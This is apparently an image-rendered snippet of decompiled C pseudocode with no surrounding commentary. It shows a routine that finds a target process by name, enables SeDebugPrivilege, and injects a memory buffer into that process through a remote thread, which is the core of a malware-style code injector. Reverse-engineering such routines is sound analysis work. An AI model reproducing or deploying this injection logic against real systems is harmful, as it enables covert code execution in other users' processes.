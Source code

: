 ```c
  v20 = -2LL;
  v6 = a2;
  TokenHandle[1] = a3;
  TokenHandle[2] = a4;
  v8 = 0;
  *(_QWORD *)&Luid.PrivilegeCount = 0LL;
  *(_QWORD *)&Luid.Privileges[0].Luid.HighPart = 0LL;
  TokenHandle[0] = 0LL;
  v19 = 15LL;
  v18 = 0LL;
  LOBYTE(v17[0]) = 0;
  sub_7FFBE8EA17E0(v17, a4, 0LL, 0xFFFFFFFFFFFFFFFFuLL);
  v16 = Func_CreateToolhelp32Snapshot((__int64)v17);
  if ( v16 )
  {
    v9 = kernel32_GetProcessHeap();
    v10 = (void *)ntdll_RtlAllocateHeap(v9, 0LL, v6);
    memmove(v10, Src, v6);
    if ( v10 )
    {
      v11 = (void *)kernel32_GetCurrentProcess();
      if ( OpenProcessToken(v11, 0x28u, TokenHandle) )
      {
        Luid.PrivilegeCount = 1;
        Luid.Privileges[0].Attributes = 2;
        if ( LookupPrivilegeValueA(0LL, "SeDebugPrivilege", &Luid.Privileges[0].Luid) )
          AdjustTokenPrivileges(TokenHandle[0], 0, &Luid, 0, 0LL, 0LL);
        kernel32_CloseHandle(TokenHandle[0]);
      }
      v12 = (void *)Kernel32_OpenProcess(1082LL, 0LL, v16);
      if ( v12 )
      {
        v19 = 15LL;
        v18 = 0LL;
        LOBYTE(v17[0]) = 0;
        sub_7FFBE8EA17E0(v17, a3, 0LL, 0xFFFFFFFFFFFFFFFFuLL);
        v13 = Func_CreateRemoteThread(v12, v10, (unsigned int)v6, (__int64)v17);
        if ( v13 )
        {
          kernel32_WaitForSingleObject(v13, 0xFFFFFFFFLL);
          v8 = 1;
        }
        kernel32_CloseHandle(v12);
      }
      v14 = kernel32_GetProcessHeap();
      kernel32_HeapFree(v14, 0LL, v10);
    }
  }
  if ( (unsigned __int64)a3[3] >= 0x10 )
    j_free(*a3);
  a3[3] = (void *)15;
  a3[2] = 0LL;
  *(_BYTE *)a3 = 0;
  if ( (unsigned __int64)a4[3] >= 0x10 )
    j_free(*a4);
  a4[3] = (void *)15;
  a4[2] = 0LL;
  *(_BYTE *)a4 = 0;
  return v8;
}
```
